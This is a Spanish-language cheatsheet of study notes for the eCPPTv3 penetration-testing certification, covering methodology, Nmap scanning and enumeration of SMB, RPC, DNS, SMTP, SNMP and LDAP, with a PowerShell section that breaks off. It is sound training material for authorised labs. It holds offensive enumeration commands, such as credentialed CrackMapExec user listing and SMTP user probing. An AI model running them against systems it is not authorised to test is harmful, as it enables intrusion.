<div align="center">

# 🛡️ eCPPTv3 Cheatsheet en Español · Pentesting y Active Directory

### Apuntes de estudio para eCPPTv3 · Certified Professional Penetration Tester

<p align="center">
  
</p>

<a id="certificacion"></a>
<p align="center">
  
</p>


**Enumera con criterio · Conecta los hallazgos · Demuestra el impacto**

</div>

> **¿También estás preparando el eJPT?**<br>
> Consulta mi **[🛡️ eJPT Cheatsheet](https://github.com/saulruizplaza/eJPT-Cheatsheet)**: metodología, enumeración, explotación y plantillas para reforzar tus fundamentos de pentesting.

---

## 📌 Objetivo del repositorio

La base de esta guía es mi **[eJPT Cheatsheet](https://github.com/saulruizplaza/eJPT-Cheatsheet)**. La amplío con **mis apuntes e imágenes originales de eCPPTv3**, organizados para estudiar y consultar durante laboratorios: PowerShell, enumeración, explotación web, MSSQL, escalada, hashes, movimiento lateral, pivoting y Active Directory. Los ejemplos se acompañan de sus requisitos, la interpretación del resultado y las capturas de las prácticas.

> [!IMPORTANT]
> Material para aprendizaje, CTFs y sistemas autorizados. Sustituye las direcciones y cuentas de ejemplo por las de tu laboratorio.

## 📚 Recursos del repositorio

- [Cheatsheet principal](README.md): apuntes, comandos y capturas por tema.
- [Plantilla de documentación](LAB_TEMPLATE.md): seguimiento de una máquina o laboratorio.
- [Plantilla para examen eCPPT](ECPPT_EXAM_TEMPLATE.md): hosts, redes, credenciales y evidencias de una práctica con varios equipos.
- [Vídeo de mi experiencia eCPPT](#video-ecppt): preparación y lecciones personales.
- [Mi eJPT Cheatsheet](https://github.com/saulruizplaza/eJPT-Cheatsheet): fundamentos y metodología de pentesting.

<a id="video-ecppt"></a>
<a id="experiencia"></a>
## 🎥 Vídeo: mi experiencia en el examen eCPPTv3

Comparto cómo preparé eCPPT, qué base tenía y qué reforzaría al volver a estudiarlo.

<p align="center">
  <a href="https://www.youtube.com/watch?v=mjBdfXu0Jqw">
    
  </a>
</p>

📺 **[Aprobé el eCPPTv3 en un mes: ¿merece la pena?](https://www.youtube.com/watch?v=mjBdfXu0Jqw)** · 10 de octubre de 2026 · 32:35

<a id="indice"></a>
## 🧭 Índice

- [Metodología de trabajo](#metodologia)
- [Reconocimiento](#reconocimiento)
- [Google Dorking](#google-dorking)
- [Descubrimiento y escaneo con Nmap](#nmap)
- [Enumeración por servicio](#servicios)
- [PowerShell para pentesters](#powershell)
- [Active Directory](#active-directory): [PowerView](#powerview) · [BloodHound](#bloodhound) · [Mimikatz](#mimikatz)
- [Acceso inicial y contraseñas](#acceso-inicial)
- [Explotación web y servicios comunes](#web)
- [Bases de datos y MSSQL](#bases-datos)
- [Metasploit, payloads y shells](#metasploit)
- [Post-explotación y escalada Windows](#windows)
- [Post-explotación y escalada Linux](#linux)
- [Credenciales, hashes y cracking](#credenciales)
- [Movimiento lateral](#movimiento-lateral)
- [Pivoting y movimiento en red](#pivoting)
- [Macros VBA, Shellter y ofuscación](#desarrollo-recursos)
- [Utilidades prácticas](#utilidades)
- [Plantillas de documentación](#evidencias)

---

<a id="metodologia"></a>
## 🧠 Metodología de trabajo

### Flujo de trabajo

| Fase | Qué haces | Qué buscas |
|---|---|---|
| Reconocimiento | Reunir nombres, direcciones y contexto | Superficie inicial del laboratorio |
| Descubrimiento | Comprobar hosts, puertos y rutas | Servicios alcanzables |
| Enumeración | Profundizar en cada protocolo y aplicación | Versiones, usuarios, permisos y recursos |
| Acceso inicial | Relacionar hallazgos con sus requisitos | Una vía de acceso comprobable |
| Post-explotación | Identificar usuario, procesos, archivos y redes | Contexto de la sesión y nuevos hallazgos |
| Escalada y movimiento | Revisar permisos y alcance de la identidad | Acceso a otros recursos o redes |
| Documentación | Guardar acciones y resultados | Evidencias que permitan repetir la práctica |

Para cada hipótesis anota **evidencia → requisito → prueba → resultado → decisión**. Un servicio antiguo, un nombre de plugin o un resultado de un escáner es una pista. La vulnerabilidad requiere confirmar versión, configuración y comportamiento.

### Dónde ejecutar los comandos

Fíjate en la consola y en el equipo que necesita cada ejemplo:

| Dónde escribirlo | Ejemplos |
|---|---|
| Terminal de Kali | Escaneos con Nmap y conexiones con CrackMapExec |
| Terminal del Linux que estás analizando | `id`, `sudo -l` y consultas de permisos |
| PowerShell del Windows que estás analizando | Consultas de usuarios, procesos y comandos de PowerView, después de cargarlo |
| Consola de Mimikatz, en Windows | Comandos como `privilege::debug` |
| Consola de Metasploit (`msfconsole`) | `use`, `set` y `run` |
| Sesión de Meterpreter | `getuid` y `sysinfo` |
| Cliente conectado a SQL Server | Sentencias como `SELECT` y `EXEC` |

Si te conectas por SSH a otra máquina y ejecutas `id`, verás el usuario de **esa máquina**. Lo mismo ocurre con los comandos de una sesión remota de PowerShell.

**Cambia los datos de ejemplo por los de tu laboratorio:**

- `10.10.10.20`: IP de la máquina objetivo.
- `10.10.14.5`: IP de tu Kali que la máquina objetivo puede alcanzar. Se usa, por ejemplo, en la opción `LHOST` de Metasploit.
- `lab.example`, `dc01.lab.example` y `alumno`: dominio, nombre del equipo y usuario del ejemplo.
- `PASSWORD` y `NTHASH`: contraseña y hash NT que hayas obtenido. Los valores entre `<...>` también se sustituyen.

### Preparar Kali

Crea las carpetas donde guardarás resultados, evidencias, notas y archivos para transferir:

```bash
mkdir -p scans evidence notes transfer
```

Comprueba tu IP, la ruta al objetivo, la resolución del nombre del controlador de dominio, la hora UTC, los puertos locales en escucha y la versión de Nmap:

```bash
ip -br address
ip route
ip route get "10.10.10.20"
getent hosts "dc01.lab.example"
date -u
ss -lntp
nmap --version
```

Si una herramienta permite introducir la contraseña cuando la pide, puedes hacerlo así para evitar problemas con caracteres como `!` o `$` en la terminal.

### Priorizar sin atascarse

| Prioridad | Ejemplo | Motivo |
|---|---|---|
| Alta | Recurso legible, configuración expuesta, credencial ya encontrada | Prueba directa con pocos supuestos |
| Media | Versión y configuración compatibles con un PoC | Hace falta confirmar requisitos |
| Baja | Fuerza bruta enorme, kernel exploit sin contexto | Mucho coste, riesgo de caída y evidencia débil |

Si repites el mismo intento sin información nueva, cambia de hipótesis. Al obtener una nueva identidad vuelve a revisar los recursos que antes no podías leer.

[↑ Volver al índice](#indice)

---

<a id="reconocimiento"></a>
## 🔎 Reconocimiento

### Pasivo, DNS y reconocimiento activo

Consultar buscadores o transparencia de certificados es reconocimiento indirecto. Resolver DNS contacta con un servidor DNS; **AXFR, `whatweb`, `curl` y el escaneo son actividades activas**.

```bash
whois example.com
dig example.com A
dig example.com MX
dig example.com NS
dig example.com TXT
dig -x "10.10.10.20"
host "10.10.10.20"
```

Relaciona dominios, nombres de máquinas y tecnologías. Un dato público no amplía automáticamente el alcance del laboratorio. En entornos aislados, los nombres obtenidos de SMB, TLS, HTML y configuraciones suelen ser más útiles que OSINT externo.

[↑ Volver al índice](#indice)

---

<a id="google-dorking"></a>
## 🌐 Google Dorking

Busca documentos, rutas y nombres indexados que ayuden a entender el entorno.

| Consulta | Uso |
|---|---|
| `site:example.com filetype:pdf` | Documentos indexados |
| `site:example.com inurl:login` | Páginas de autenticación |
| `site:example.com intitle:"index of"` | Listados de directorios |
| `site:example.com "backup"` | Referencias a copias o rutas |

[↑ Volver al índice](#indice)

---

<a id="nmap"></a>
## 📡 Descubrimiento y escaneo con Nmap

<a id="nmap-descubrimiento"></a>
### De la red al servicio

```bash
# Descubrimiento dentro de un rango autorizado
nmap -sn 10.10.10.0/24 -oA scans/discovery
# Si ICMP no da resultados, probar descubrimiento TCP
nmap -sn -PS22,80,443,445 10.10.10.0/24 -oA scans/tcp-discovery
# Escaneo inicial de un host conocido
nmap -sT -Pn -n --top-ports 1000 "10.10.10.20" -oA scans/initial
# Todos los puertos TCP: adaptar la velocidad a la red
sudo nmap -sS -Pn -n -p- --reason "10.10.10.20" -oA scans/all-tcp
# Sustituir esta lista por los puertos realmente encontrados
nmap -sT -Pn -n -sV -sC -p 22,80,445 "10.10.10.20" -oA scans/services
# UDP requiere una exploración separada
sudo nmap -sU -Pn -n --top-ports 30 --reason "10.10.10.20" -oA scans/udp
```

| Opción | Significado | Error habitual |
|---|---|---|
| `-sn` | Descubrimiento sin escaneo de puertos | Dar por muerto un host filtrado |
| `-Pn` | Saltar descubrimiento | Pensar que demuestra que el host responde |
| `-sT` | Conexiones TCP del sistema | Confundirlo con SYN scan |
| `-sS` | SYN scan con paquetes raw | Usarlo sin permisos o mediante SOCKS |
| `-sV` | Identificar servicios | Tratar una versión inferida como prueba de CVE |
| `-sC` | Scripts de la categoría default | Suponer que todos son pasivos |
| `-p-` | TCP 1–65535 si no cambias el tipo de escaneo | Olvidar UDP y el puerto 0 |
| `-n` | No resolver nombres | Olvidar que algunas aplicaciones necesitan FQDN |
| `-oA` | Salida normal, XML y grepable | No crear antes el directorio de destino |
| `--min-rate` | Mínimo de envío | Perder precisión con tasas elevadas |

<a id="nmap-estados"></a>
### Estados y próximos pasos

- **open:** hay un servicio; identificarlo y enumerarlo.
- **closed:** el host contestó, pero no hay un servicio escuchando en ese puerto.
- **filtered:** no se puede determinar apertura por el filtrado observado.
- **open|filtered:** frecuente en UDP sin respuesta; profundizar con un sondeo específico.

Cuando la red sea lenta, evita forzar miles de paquetes por segundo. Repite los puertos importantes con una tasa moderada si la primera salida parece incompleta. No uses `--script vuln` como sustituto de seleccionar y leer los scripts.

```bash
nmap --script-help smb-enum-shares
nmap -Pn -sV -p 80,443 --script http-title,http-headers "10.10.10.20"
nmap -Pn -sV -p 445 --script smb-protocols,smb2-security-mode "10.10.10.20"
```

Referencia: [manual de Nmap](https://nmap.org/book/man.html). Para un objetivo tras SOCKS, ve a [pivoting](#pivoting): usa `-sT -Pn -n` y un conjunto reducido de puertos.

[↑ Volver al índice](#indice)

---

<a id="servicios"></a>
## 🧩 Enumeración por servicio

### Mapa de puertos

| Puerto habitual | Servicio | Qué buscar |
|---|---|---|
| 21 / 22 | FTP / SSH | Anónimo, archivos, usuarios y claves |
| 25, 465, 587 | SMTP | Dominio, capacidades y validación de usuarios |
| 53 TCP/UDP | DNS | Zona, registros, nombres de DC y hosts |
| 69 UDP / 79 | TFTP / Finger | Ficheros conocidos / información de usuarios |
| 80, 443, 8080, 8443 | HTTP(S) | Aplicación, vhost, rutas, autenticación |
| 88 / 464 | Kerberos | Dominio, cuentas y autenticación |
| 135 / 139 / 445 | RPC / NetBIOS / SMB | Identidades, shares, servicios remotos |
| 161 UDP | SNMP | Interfaces, procesos, usuarios y rutas |
| 389, 636, 3268, 3269 | LDAP / catálogo global | Objetos, grupos y relaciones de AD |
| 1433 / 3306 / 5432 | MSSQL / MySQL / PostgreSQL | Bases, permisos y secretos de aplicación |
| 3389 / 5985 / 5986 | RDP / WinRM | Acceso remoto y restricciones |

Los puertos orientan; la detección de servicio confirma. Una aplicación puede escuchar en cualquier puerto.

<a id="smb"></a>
### SMB, NetBIOS y RPC

```bash
nbtscan "10.10.10.20"
nmblookup -A "10.10.10.20"
sudo nmap -sU -Pn -p 137 --script nbstat "10.10.10.20"
smbclient -L "//10.10.10.20/" -N
smbclient "//10.10.10.20/Public" -N
smbmap -H "10.10.10.20" -u guest -p ''
rpcclient -U '' -N "10.10.10.20"
```

`-N` evita pedir contraseña; no garantiza que el servidor acepte la sesión. **Guest y null session no son equivalentes**: registra qué identidad y acceso se han aceptado.

Dentro de `smbclient`:

```text
ls
cd carpeta
get fichero.txt
allinfo fichero.txt
exit
```

Dentro de `rpcclient`:

```text
srvinfo
enumdomains
enumdomusers
enumdomgroups
querydispinfo
queryuser 0x1f4
querygroupmem 0x200
getdompwinfo
```

`queryuser` recibe un RID como el que aparece en la enumeración. Los RID de ejemplo deben sustituirse por los encontrados. `rpcclient` suele usar RPC sobre SMB; no debe diagnosticarse únicamente mirando el puerto 135.

Con credenciales de dominio:

```bash
smbclient -L "//10.10.10.20/" -U "lab.example/alumno"
crackmapexec smb "10.10.10.20" -d "lab.example" -u "alumno" -p 'PASSWORD' --shares
crackmapexec smb "10.20.20.10" -d "lab.example" -u "alumno" -p 'PASSWORD' --users
crackmapexec smb "10.20.20.10" -d "lab.example" -u "alumno" -p 'PASSWORD' --pass-pol
```

**Qué mirar:** `READ`, `WRITE`, nombres de scripts, configuraciones, backups, SYSVOL y NETLOGON. Leer un share no implica ejecutar comandos; tener `WRITE` no basta si nada interpreta o ejecuta lo que subes. No vuelques un recurso completo si basta con inspeccionar archivos relevantes.

<details>
<summary><strong>📸 Capturas de NetBIOS y RPC</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Estado del servicio UDP NetBIOS.</strong> open|filtered no confirma un nombre ni acceso: interpreta el estado y la respuesta del protocolo.</sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Enumeración de identidades RPC.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Propiedades de una identidad RPC.</strong></sub></p>

</details>

### FTP y TFTP

```bash
nmap -Pn -sV -p 21 --script ftp-anon,ftp-syst "10.10.10.20"
ftp "10.10.10.20"
# Dentro de FTP: anonymous como usuario si el servidor lo admite
# Después: ls, cd, binary, get archivo, quit
sudo nmap -sU -Pn -p 69 "10.10.10.20"
```

Busca coincidencias entre el directorio FTP y la raíz web. Subir un archivo no demuestra ejecución. TFTP no proporciona un listado universal: necesitas conocer el nombre de un fichero y que el servidor permita descargarlo.

### SSH

```bash
nmap -Pn -p 22 --script ssh-hostkey "10.10.10.20"
ssh "alumno@10.10.10.20"
chmod 600 id_rsa
ssh -i id_rsa "alumno@10.10.10.20"
ssh -vv "alumno@10.10.10.20"
```

`Permission denied (publickey)` no significa que la clave pertenezca a ese usuario ni que se admita contraseña. Si la clave tiene passphrase, no la confundas con la contraseña de la cuenta. Para algoritmos antiguos, habilita únicamente el que indique el error y solo para ese host de laboratorio.

<a id="dns"></a>
### DNS

```bash
dig @"10.20.20.10" "lab.example" SOA
dig @"10.20.20.10" "lab.example" NS
dig @"10.20.20.10" "_ldap._tcp.dc._msdcs.lab.example" SRV
dig @"10.20.20.10" "lab.example" AXFR
dig @"10.20.20.10" -x "10.10.10.20"
```

AXFR comprueba una transferencia de zona. Si se deniega, continúa con registros individuales; no deduzcas que no existe el dominio. Comprueba también DNS sobre TCP cuando la respuesta sea grande o el transporte UDP no funcione.

### SMTP y Finger

```bash
nmap -Pn -sV -p 25,465,587 --script smtp-commands "10.10.10.20"
nc -nv "10.10.10.20" 25
# En la sesión: EHLO lab.example / VRFY usuario / QUIT
smtp-user-enum -M VRFY -U users.txt -t "10.10.10.20"
finger "usuario@10.10.10.20"
```

`252` o una respuesta genérica no confirma un usuario. Compara un nombre inexistente y otro conocido. En SMTP con TLS obligatorio, utiliza `openssl s_client -starttls smtp -connect IP:587` para diagnosticar el protocolo.

<details>
<summary><strong>📸 Capturas de SMTP y Finger</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Respuesta del servicio SMTP.</strong> La respuesta depende de comandos permitidos y configuración del servidor.</sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Información de usuario por Finger.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Referencia al servicio Finger.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Respuestas de enumeración Finger.</strong></sub></p>

</details>

### SNMP

```bash
sudo nmap -sU -Pn -sV -p 161 --script snmp-info "10.10.10.20"
snmpwalk -v2c -c public "10.10.10.20" 1.3.6.1.2.1.1
snmpwalk -v2c -c public "10.10.10.20" 1.3.6.1.2.1.2
snmpwalk -v2c -c public "10.10.10.20" 1.3.6.1.2.1.25.4.2.1.2
```

Las ramas consultan información del sistema, interfaces y nombres de procesos. `public` es una comunidad de ejemplo, no una garantía. Relaciona interfaces con posibles redes internas y procesos con servicios; un timeout puede ser comunidad errónea, filtrado o falta de servicio.

### LDAP, RDP y WinRM

```bash
ldapsearch -x -H "ldap://10.20.20.10" -s base -b '' namingContexts defaultNamingContext
nmap -Pn -p 3389 --script rdp-ntlm-info "10.10.10.20"
nmap -Pn -sV -p 5985,5986 "10.10.10.20"
```

RootDSE puede permitir consultas anónimas mientras que el resto de LDAP exige autenticación. RDP permite identificar nombres sin demostrar acceso al escritorio. WinRM puede responder aunque tu usuario no tenga derecho a usarlo. Continúa en [Active Directory](#active-directory) y [movimiento lateral](#movimiento-lateral).

[↑ Volver al índice](#indice)

---

<a id="powershell"></a>
## 💻 PowerShell para pentesters

### Ayuda, versión y objetos

```powershell
$PSVersionTable
[Environment]::Is64BitProcess
Get-Help Get-Process -Examples
Get-Command '*Service*'
Get-Module -ListAvailable
Get-Process | Select-Object Name,Id,Path
Get-CimInstance Win32_OperatingSystem |
    Select-Object Caption,Version,OSArchitecture
Get-Service | Where-Object Status -eq 'Running'
Get-Alias -Definition Get-ChildItem
```

| Elemento | Uso correcto |
|---|---|
| `Get-Member` | Entender las propiedades y métodos de un objeto |
| `Select-Object` | Elegir propiedades |
| `Where-Object` | Filtrar por una condición |
| `Sort-Object -Unique` | Ordenar y eliminar valores repetidos |
| `Format-List` | Presentar propiedades como lista |
| `Format-Table` | Presentar propiedades en tabla |
| `. .\script.ps1` | Cargar funciones del script en la sesión actual |
| `Import-Module .\modulo.psm1` | Importar un módulo |

Pon `Format-*` al final de la cadena, después de filtrar/exportar datos. Las funciones de PowerView, PowerUp o PrivescCheck no son cmdlets nativos: hay que disponer de la versión correcta del script y revisar sus funciones.

### Parámetros, ayuda y módulos

| Consulta o parámetro | Uso en los apuntes |
|---|---|
| `powershell.exe -?` | Consultar la ayuda del ejecutable |
| `-Command` | Ejecutar un comando o bloque de instrucciones |
| `-NoProfile` | Iniciar la sesión sin cargar perfiles del usuario |
| `-File` | Ejecutar el archivo de script indicado y pasarle argumentos |
| `-WindowStyle` | Elegir la presentación de la ventana en Windows |
| `-EncodedCommand` | Pasar instrucciones codificadas con la representación que espera el ejecutable |
| `Get-Help Get-Process -Full` | Ver la ayuda detallada de un cmdlet |
| `Get-Help Get-Process -Examples` | Consultar ejemplos de uso |
| `Get-Module` | Ver los módulos cargados en la sesión |
| `Get-Module -ListAvailable` | Localizar módulos disponibles para importar |

Un `.ps1` es un script; un `.psm1` contiene un módulo de script. Las funciones disponibles después de importar dependen de su contenido. [Parámetros de powershell.exe](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1).

<details>
<summary><strong>📸 PowerShell: ayuda, parámetros y módulos</strong></summary>

<p align="center"></p>
<p align="center"><sub><strong>Ayuda del ejecutable.</strong></sub></p>

<p align="center"></p>
<p align="center"><sub><strong>Parámetros de presentación.</strong></sub></p>

